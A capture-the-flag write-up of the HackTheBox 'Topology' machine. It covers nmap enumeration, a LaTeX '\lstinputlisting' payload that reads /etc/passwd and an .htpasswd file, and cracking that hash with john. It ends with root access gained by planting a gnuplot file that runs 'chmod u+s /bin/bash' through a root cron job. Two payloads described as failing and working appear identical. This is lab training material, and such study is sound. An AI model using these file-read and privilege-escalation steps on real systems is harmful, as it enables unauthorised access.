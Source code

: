 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Topology](https://app.hackthebox.com/machines/Topology)

## Enumerate

```console
$ sudo nmap -nv -sCV -Pn $t                                                   
[...]
Host is up (0.090s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web service running on port 80:

![](_/htb-topology-20231114-1.png)

There's one active link under "Software projects", the LaTeX Equation Generator. I add the vhost `latex.topology.htb` to `/etc/hosts`.

And here's the linked page, `http://latex.topology.htb/equation.php`:

![](_/htb-topology-20231114-2.png)

The index is open for that URL:

![](_/htb-topology-20231114-3.png)

The `header.tex` file has an interesting include, `listings`, which is [a vector for LFI](https://users.ece.utexas.edu/~garg/dist/listings.pdf)i:

![](_/htb-topology-20231114-4.png)

`$\lstinputlisting{/etc/passwd}$` does _not_ work.

But `$\lstinputlisting{/etc/passwd}$` does:

![](_/htb-topology-20231114-5.png)

The vhost `dev.topology.htb` is protected with basic-http-auth:

![](_/htb-topology-20231114-6.png)

The `stats.topology.htb` page has a dynamically generated stats `png`.

![](_/htb-topology-20231114-7.png)

## Exploit

I'm able to view the `.htpasswd` file at the root of the `dev.topology.htb` vhost:

![](_/htb-topology-20231114-8.png)

Here's the hash from the image above:

```text
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Cracking the hash with `john`:

```console
$ john --wordlist=~/rockyou.txt hash 
[...]
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
Session completed. 
```

The `dev.topology.htb` page looks like a draft page for a nascent software consulting business:

![](_/htb-topology-20231114-9.png)

But the creds are also valid for `ssh` login:

```console
$ ssh vdaisley@$t
[...]

vdaisley@topology:~$ cat user.txt
f6395b[...]
```

## Escalate

The `stats.topology.htb` vhost mentioned above has a `png` file showing the system load average. It appears to be updated frequently, e.g. every minute:

```console
vdaisley@topology:~$ date && ls -l /var/www/stats/files/load.png
Tue 14 Nov 2023 05:29:55 PM EST
-rw-r--r-- 1 www-data www-data 13615 Nov 14 17:29 /var/www/stats/files/load.png
```

I transfer `pspy64` to the target:

```console
$ scp pspy64 vdaisley@$t:/tmp/
vdaisley@10.10.11.217's password: 
pspy64                                                                                                       100% 3032KB 344.4KB/s   00:08    
```

And this gives me what I need:

```console
vdaisley@topology:~$ chmod +x /tmp/pspy64
vdaisley@topology:~$ /tmp/pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/11/14 17:35:56 CMD: UID=1007  PID=3163   | /tmp/pspy64
[...]
2023/11/14 17:36:01 CMD: UID=0     PID=3172   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3174   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/11/14 17:36:01 CMD: UID=0     PID=3175   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/14 17:36:01 CMD: UID=0     PID=3177   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3176   | gnuplot /opt/gnuplot/loadplot.plt 
2023/11/14 17:36:01 CMD: UID=0     PID=3178   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3182   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3181   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3180   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3179   | netstat -i 
2023/11/14 17:36:01 CMD: UID=0     PID=3186   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3185   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3184   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3183   | uptime 
2023/11/14 17:36:01 CMD: UID=0     PID=3187   | tail -60 /opt/gnuplot/netdata.dat 
2023/11/14 17:36:01 CMD: UID=0     PID=3189   | gnuplot /opt/gnuplot/networkplot.plt 
^CExiting program... (interrupt)
```

So now I know `root` runs this every minute or so:

`/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;`

The command accesses files in a writable (though not readable) directory:

```console
vdaisley@topology:~$ ls -ld /opt/gnuplot
drwx-wx-wx 2 root root 4096 Jun 14 07:45 /opt/gnuplot
```

`gnuplot` has a `system` command I can exploit: <http://www.bersch.net/gnuplot-doc/system.html>

Using this approach, I'm able to run `bash` with `euid=0` and access the `root.txt` flag:

```console
vdaisley@topology:~$ echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/x.plt
vdaisley@topology:~$ sleep 60 && ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:~$ /bin/bash -p
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cat /root/root.txt
3a2016[...]
```

## Summary

This machine is an exercise in bypassing a PHP command filter to prevent malicious LaTeX commands, but they forgot at least one: `\lstinputlisting`. This allows retrieving the `/etc/passwd` file, but more practically it allows grabbing an `.htpasswd` file from `/var/www/dev`. With that file, the username and hashed password for the foothold user is easy via `john` and the `rockyou.txt` wordlist.

Privilege escalation is done by writing a `plt` file to `/opt/gnuplot` containing this line:

```sh
system "chmod u+s /bin/bash"
```

A `cron` job runs every minute to generate the stats for `/var/www/stats`, but that `plt` file gets run and makes `bash` run with `setuid` user `root`.
